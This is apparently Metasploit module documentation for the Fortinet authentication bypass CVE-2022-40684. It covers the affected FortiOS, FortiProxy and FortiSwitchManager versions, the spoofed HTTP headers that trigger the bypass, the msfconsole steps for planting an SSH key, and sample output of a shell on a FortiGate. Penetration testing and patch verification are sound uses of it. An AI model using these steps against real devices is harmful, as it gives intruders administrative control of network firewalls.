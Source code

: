## Vulnerable Application

An authentication bypass using an alternate path or channel vulnerability [CWE-288] in FortiOS (firewall)
FortiProxy (web proxy), and FortiSwitch Manager products. The vulnerability allows remote, unauthenticated user to
bypass authentication and gain access to the administrative interface of these products by using a specially
crafted http/s request.

On October 3, 2022, Fortinet released a software update that addressed this vulnerability (CVE-2022-40684).

The following products are affected:

- FortiOS 7.0.0 to 7.0.6
- FortiOS 7.2.0 to 7.2.1
- FortiProxy 7.0.0 to 7.0.6
- FortiProxy 7.2.0
- FortiSwitchManager 7.0.0
- FortiSwitchManager 7.2.0

### Exploitation

This module will abuse the authentication bypass vulnerability in the affected products to add a new ssh public
key in the authorized keys of the targeted user (if no user is provided it'll try to detect it) and then connect
over ssh to the target system (if no ssh private key is provided this module will automatically generate one).

To do so it will add the following header in all HTTP requests:
```
User-Agent: Report Runner
Forwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"
```

This module doesn't intend to overwrite the ssh keys already configured in the target system, it intends to
**add** a new key in the last slot, if it is available or overwriting it.

Even though the `check` detects the system as vulnerable, it performs a further validation if the ssh port is open and will fail otherwise.

After a successful exploitation it will remove the just added key as a clean-up process. We assume it is the last key.

## Verification Steps
Confirm that functionality works:

1. Start `msfconsole`
1. `use exploit/linux/http/fortinet_authentication_bypass_cve_2022_40684`
1. set `RHOSTS`
1. set `HttpTrace true` (optional)
1. set `SSH_DEBUG true` (optional)
1. set `VERBOSE true` (optional)
1. `exploit`
1. Confirm you have now a cmd session

## Options

### TARGETURI (required)

The path to the Fotigate API (Default: `/`).

### USERNAME (required)

The username of the target user (Default: `admin`).

### PRIVATE_KEY (optional)

The path for the SSH private key to be used to authenticate. It must be in PEM format.

Example how to generate it:
```
ssh-keygen -t rsa -m PEM -f `openssl rand -hex 8`
```

### KEY_PASS (optional)

The password for a given SSH private key (if it has one).

### SSH_RPORT (required)

The SSH port to connect to (Default: `22`)

## Scenarios

### vulnerable application version and OS
This module has been tested successfully on FortiGate v7.2.0.

```
msf6 exploit(linux/http/fortinet_authentication_bypass_cve_2022_40684) > exploit 

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking XXX.XXX.XXX.XXX:443
[+] The target appears to be vulnerable. Target seems vulnerable
[*] Executing exploit on Interactive SSH
[*] Establishing SSH connection
[*] SSH session 1 opened (172.25.226.18:38791 -> XXX.XXX.XXX.XXX:22) at 2022-10-15 04:00:41 +0200

FW01 #  get sys status
Version: FortiGate-100F v7.2.0,build1157,220331 (GA.F)
Firmware Signature: certified 
```
